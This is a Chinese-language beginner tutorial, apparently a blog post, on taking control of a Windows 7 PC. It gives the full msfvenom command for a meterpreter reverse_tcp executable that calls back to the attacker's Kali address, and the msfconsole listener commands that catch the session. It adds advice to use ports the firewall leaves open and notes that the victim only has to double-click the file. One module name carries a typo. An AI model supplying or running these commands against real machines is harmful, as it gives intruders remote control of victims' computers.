




1.1. 如何渗透攻击Windows PC
关于这个问题提出三个问题
1-如何生成Payload?
2-如何通过Payload渗透攻击Windows?
3-如何开始渗透?
文章的开头先简单回答这三个问题
1-不是所有的人都具备写一个软件的能力，也不是所有的人都会编写Payload，但是还好现在我们有工具可以直接生成Payload
2-我们需要通过Victim执行Payload文件来反弹一个TCP连接，HTTP连接，或者HTTPS连接
3-这个问题就是用户需要怎么执行Payload，Windows系统中双击运行就可以
1.2. 测试环境
攻击者：Kali IP地址:192.168.43.126
victim：Windows7 IP地址:192.168.43.14
1.3. 使用msfvenom生成Payload
我们可以使用msfvenom来生成Payload，这个工具可以很方便的生成我们需要的Payload文件，加上命令不难理解就成了初学者比较好的选择
那我们使用什么命令生成Payload呢？只需要一条命令就可以
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.126 LPORT=4444 -f exe > Windows.exe

1.3.1. 原理介绍
-p 参数指的是Payload的类型
-LHOST 参数指定的是本地Kali主机的IP地址，就是将TCP会话返回给谁
-LPORT 参数指定的是返回TCP会话使用的本地端口
-f 参数指定的是生成的文件类型
还有其他的参数，用的时候讲解，比如编码的类型之类的
生成该Payload文件之后，我们需要开启一个监听器，让Victim执行该Payload文件时，我们可以知道
那怎么知道的呢？
因为Victim执行Payload文件时，我们Kali主机会收到一个TCP的连接会话
为什么是TCP回话呢？
这个会话的类型与我们刚才设置的Payload有关，因为刚才设置的Payload为reverse_tcp，所以但会的是一个TCP会话
端口一定要是4444吗？
这个端口不一定要是4444，可以根据自己想设置的端口设置，范围为1-65535，但是我们在选择的时候一般会选一些防火墙开放的端口，因为如何你选择了防火墙不开放的端口，就无法返回TCP回话了
1.4. 设置监听器
接下来我们需要让Victim下载该Payload文件，这方法就很多种了，这里不解释
我们使用msfconsole来设置监听器，需要注意的是设置监听器参数的时候需要和生成Payload文件的参数一样，不然不能返回TCP会话
use exploit/multi/handle
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.43.126
set LPORT 4444

设置完监听器的参数之后，我们使用命令来查看一下监听器的信息
show options

查看完，都设置正确的话，就可以使用命令开启监听器，如果发现那一句没有设置正确就重新设置那个参数
exploit
现在我们就等待Victim运行该Payload文件
现在看到屏幕中出现了一个session，说明Victim已经运行了Payload文件 
我们现在可以使用命令来查看我们可以进行的操作
help

如果帮助到你了，希望可以得到你的打赏，谢谢B站频道传送门